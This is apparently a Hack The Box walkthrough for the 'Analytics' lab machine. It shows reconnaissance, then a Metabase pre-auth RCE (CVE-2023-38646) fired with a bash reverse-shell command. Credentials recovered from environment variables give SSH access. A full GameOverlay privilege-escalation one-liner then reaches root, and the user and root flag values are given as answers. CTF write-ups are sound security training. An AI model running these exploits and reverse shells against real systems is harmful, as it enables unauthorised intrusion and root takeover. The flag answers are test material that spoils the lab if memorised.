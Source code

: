 # Analytics

> IP: [10.10.11.233]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.10.11.233 -oN init_scan
      1. Port 22 -> ssh
      2. Port 80 -> http
         1. http-title: Did not follow redirect to http://analytical.htb/ -> need to add to /etc/hosts
3. HTTP
   1. Navigate to website and look at source code and site
      1. On here we see normal navigation, but the login page redirects to data.analytical.htb so need to add this subdomain to our /etc/hosts
   2. ADD SUBDOMAIN
      1. Redirected to: "http://data.analytical.htb/auth/login?redirect=%2F"
      2. This looks to be a standard login form
   3. GOBUSTER
      1. DOMAIN
         1. > gobuster dir -x php,txt,html -u http://analytical.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
            1. /images
            2. /css
            3. /js
      2. SUBDOMAIN
         1. > gobuster dir -x php,txt,html -u http://data.analytical.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
4. RESEARCH
   1. Looknig around I found a github repo that talks about a pre-auth RCE for metabase
      1. CVE-2023-38646
      2. LINK: "https://github.com/m3m0o/metabase-pre-auth-rce-poc"
5. CVE-2023-38646 POC
   1. Need the url, setup token, and command
   2. URL: "http://data.analytical.htb/"
   3. SETUP-TOKEN: "setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
      1. This is found by going to /api/session/properties
   4. COMMAND: bash revshell -> "bash -i >& /dev/tcp/MY_IP_ADDR/1234 0>&1"
   5. PYTHON SCRIPT
      1. Download the script from github
6. EXPLOIT
   1. > python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.188/1234 0>&1"
   2. Setup netcat listener
   3. SUCCESS!
      1. Stabilize shell
7. ENUMERATION
   1. We are spawned into the base dir "/"
   2. Listing all files
      1. > ls -la
         1. In here we see a couple interesting files/dir
            1. drwxr-xr-x 1 metabase metabase 4096 Aug 3 2023 metabase.db
            2. -rwxr-xr-x 1 root root 0 Mar 3 22:12 .dockerenv
      2. This makes me think we are in a docker environment potentially?
   3. Check out the metabase.db dir first
      1. > cat metabase.db.mv.db
      2. TONS OF LINES
      3. Several grep attempts
      4. Metabase database schema research
   4. LINPEAS
      1. ENV VARIABLES
         1. META_USER=metalytics
         2. META_PASS=An4lytics_ds20223#
      2. /proc mounted? ................. Yes
      3. -rw-r--r--    1 root     root     292187539 Jun 29  2023 /app/metabase.jar
8. SSH
   1. Sign in as the metalytics user
      1. > ssh metalytics@analytical.htb
         1. PW: An4lytics_ds20223#
         2. SUCCESS
9. ENUERATION
   1. Check for sudo privleges (if any)
      1. > sudo -l
         1. RESPONSE: Sorry, user metalytics may not run sudo on localhost.
   2. Get user flag
      1. > cat user.txt
         1. FLAG: `86f7c21788d47dc98d06ef436425c684`
   3. LINPEAS
      1. Only found other (htb users) that were concurrently working on the same machine files
      2. OS: 22.04.2-Ubuntu
   4. RESERCH
      1. Looking into the OS version we see the following CVE's
         1. CVE-2023-2640 & CVE-2023-32629
         2. We can escalate privleges with

            ```sh
               unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
               setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
            ```

10. EXPLOIT
    1. Run our command
    2. SUCCESS, we are now root
    3. Get flag
       1. > cat /root/root.txt
          1. FLAG: `66d7c7a1628934a7d52595e722cb481c`

## QUESTIONS

1. Submit user flag
   1. `86f7c21788d47dc98d06ef436425c684`
2. Submit root flag
   1. `66d7c7a1628934a7d52595e722cb481c`
